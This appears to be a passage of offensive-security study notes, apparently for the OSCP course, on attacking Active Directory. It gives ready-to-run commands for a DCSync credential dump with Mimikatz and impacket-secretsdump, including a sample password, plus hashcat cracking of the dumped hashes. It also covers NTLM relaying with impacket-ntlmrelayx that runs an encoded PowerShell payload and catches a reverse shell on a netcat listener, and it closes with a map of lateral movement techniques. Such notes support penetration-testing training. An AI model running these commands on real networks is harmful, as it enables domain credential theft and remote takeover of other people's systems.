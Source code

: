 ### DCSync
> **Prerequisite**: have access to a user that is in one of these groups: **Domain Admins, Enterprise Admins, or Administrators**
1) Attack
	1) From Windows: Mimikatz:`lsadump::dcsync /user:corp\Administrator`
		1) `Administrator` is the user we want to obtain credentials for
	2) From Kali: `impacket-secretsdump -just-dc-user Administrator corp.com/jebadmin:"Password2023\!"@192.168.50.70`
		2) IP is for DC we are targeting
2) Crack: `hashcat -m 1000 hashes.dcsync /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`

### Relaying Net-NLTMv2
> Prerequisite: force a connection from a target computer to our attack box.
1) Start relay server
	1) `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc JABjAGwAaQBlAG4AdA..."`
	2) `-t` indicates the target we want to access
	3) Avoid port conflict with initial footheld nc port
2) Start nc listener
	4) `nc -lvnp 443`
3) Force user on victim to connect to our fake/malicious relay server
	1) Using `dir \\192.168.119.2\test` to try to access it, which will attempt to authenticate. This IP is our Kali box hosting the relay server.
4) Netcat listener should have caught reverse shell at this point
---
--- 
# AD Lateral Movement
- **AS-REP Roasting/Kerberoasting** → Obtain valid user or service credentials → Use WMI/WinRM, PsExec, or Pass-the-Hash/Overpass-the-Hash for remote execution.
- **Silver Ticketing** → Forge service tickets → Directly employ Pass-the-Ticket lateral movement.
- **DC Synchronization** → Harvest NTLM hashes → Use Pass-the-Hash or Overpass-the-Hash techniques.

Each initial attack gives you a different “key” (credential, hash, or ticket) that unlocks the possibility to move laterally using the corresponding technique. This mapping isn’t always one-to-one—sometimes multiple harvesting methods feed into the same lateral movement method—but understanding the interplay between credential acquisition and remote access is crucial for both offensive operations and defensive mitigations, as emphasized in the OSCP/PWK curriculum.

---
## WMI & WinRM
4 different techniques in this section.
- WMI with `wmic` (deprecated)
	- Very easy
- WMI with PowerShell
	- Fairly tedious
- WinRM with `winrs`
	- Very easy
- WinRM with PowerShell Remoting
	- Fairly tedious but the best because you have a real PowerShell remote session instead of a hacky reverse shell
